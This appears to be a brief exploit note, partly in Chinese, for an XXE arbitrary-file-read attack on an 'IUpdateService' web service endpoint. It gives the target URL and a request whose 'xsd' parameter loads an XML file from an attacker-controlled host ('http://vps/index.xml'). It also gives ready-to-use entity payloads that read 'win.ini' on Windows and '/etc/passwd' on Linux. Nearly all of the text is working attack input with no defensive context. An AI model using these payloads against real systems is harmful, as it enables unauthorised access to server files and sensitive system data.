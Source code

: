 http://127.0.0.1/uapws/service/nc.uap.oba.update.IUpdateService?wsdl

http://127.0.0.1/uapws/service/nc.uap.oba.update.IUpdateService?xsd=http://vps/index.xml

index.xml可以是
windows:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///c://windows/win.ini">]><user><username>&name;</username><password>1</password></user>

linux:
evil.xml:
<?xml version="1.0"?><!DOCTYPE test [<!ENTITY name SYSTEM "file:///etc/passwd">]><user><username>&name;</username><password>1</password></user>

执行任意文件读取